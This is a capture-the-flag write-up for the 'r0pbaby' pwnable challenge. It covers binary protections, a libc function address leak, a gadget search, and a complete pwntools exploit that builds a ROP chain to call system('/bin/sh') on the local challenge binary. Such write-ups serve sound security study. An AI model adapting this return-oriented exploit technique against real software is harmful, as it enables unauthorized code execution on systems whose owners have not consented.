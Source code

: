 # r0pbaby

About this binary

```bash
[*] '/home/ubuntu/Desktop/Pwnable/Write-ups/r0pbaby/r0pbaby'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

This binary has `PIE`, `NX bit`.

About `libc.so.6`

```bash
[*] '/home/ubuntu/Desktop/Pwnable/Write-ups/r0pbaby/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```bash
Welcome to an easy Return Oriented Programming challenge...
Menu:
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 2   
Enter symbol: system
Symbol system: 0x00007F9988E86390
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: 3
Enter bytes to send (max 1024): 4  
1234
1) Get libc address
2) Get address of a libc function
3) Nom nom r0p buffer to stack
4) Exit
: Bad choice.
```

This binary gives libc address, function address, and we can overwrite stack start from `rbp`.

I wrote rop code like this.

```python
rop code
2 > system leak
calc '/bin/sh' address
3 > overwrite ret
```

And this binary has `PIE`, so I found gadget offset from `libc.so.6` using `rp++`. 

```bash
rp++ -f ./libc.so.6 -r 2 | grep "pop rdi"
...
0x0019dba5: pop rdi ; ret  ;  (1 found)
```

After, I got system offset by pwntools.

## exploit.py

```python
from pwn import *

context.log_level = 'debug'

lib = ELF('./libc.so.6')
bin = ELF('./r0pbaby')

p = process('./r0pbaby', env={'LD_PRELOAD' : 'libc.so.6'})

system_offset = lib.symbols['system']

binsh_offset = 0x1479c7 # /bin/sh - system
pop_rdi_ret_offset = 0x0019dba5
pop_rdi_ret = pop_rdi_ret_offset - system_offset


p.sendline('2')
p.sendline('system')
p.recvuntil('Symbol system: ')
system_leak = int(p.recvline().split('\n')[0],16)

print 'system_leak: '
print system_leak

binsh = system_leak + binsh_offset

print 'binsh: '
print binsh

payload = 'a' * 8
payload += p64(system_leak + pop_rdi_ret) + p64(binsh) + p64(system_leak)

p.sendline('3')
p.sendline(str(len(payload) + 1))
p.sendline(payload)
p.sendline('4')

p.interactive()
```